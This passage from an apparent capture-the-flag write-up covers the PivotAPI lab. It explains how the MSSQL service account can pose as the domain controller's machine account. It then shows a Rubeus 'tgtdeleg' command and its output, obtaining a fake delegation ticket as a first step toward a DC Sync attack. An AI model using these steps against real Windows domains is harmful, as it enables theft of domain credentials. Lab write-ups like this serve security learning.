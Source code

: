 ### Background

When Windows service accounts authenticate over the network, they do so as the
machine account on a domain-joined system. [This
post](https://exploit.ph/delegate-2-thyself.html) does a really good job with
the details of what’s being abused here.

Because I’m running as the service account for MSSQL, if I can authenticate
back to the DC over the network as that account, it will be the machine
account for the machine MSSQL is running on, which happens to be the DC. And
the machine account for the DC has access to do a DC Sync attack, which is
basically telling the DC you’d like copies of all of it’s data.

### DC Sync

#### Tools

I’ll use the [Rubeus](https://github.com/GhostPack/Rubeus) tool to carry out
the attack. The Rubeus repo doesn’t keep compiled binaries, but the
[SharpCollection](https://github.com/Flangvik/SharpCollection) repo is a bunch
of pre-compiled Windows attack tools.

I’ll grab the `Rubeus.exe` from `NewFramework_4.0_Any` and upload it to
PivotAPI.

#### Get Ticket

Now I’ll use `Rubeus.exe` to first get a fake delegation ticket for the
machine account:

    
    
    CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\ProgramData> .\Rubeus.exe tgtdeleg /nowrap
    
       ______        _                      
      (_____ \      | |                     
       _____) )_   _| |__  _____ _   _  ___ 
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
    
      v2.0.0 
    
    
    [*] Action: Request Fake Delegation TGT (current user)
    
    [*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
    [*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/PivotAPI.LicorDeBellota.htb'
    [+] Kerberos GSS-API initialization success!
    [+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
    [*] Found the AP-REQ delegation ticket in the GSS-API output.
    [*] Authenticator etype: aes256_cts_hmac_sha1
    [*] Extracted the service ticket session key from the ticket cache: 6g2Dq2qtY+Nv3ER+m552rbUHenFM3DxlEdB/yjj3ssg=
    [+] Successfully decrypted the authenticator
    [*] base64(ticket.kirbi):
    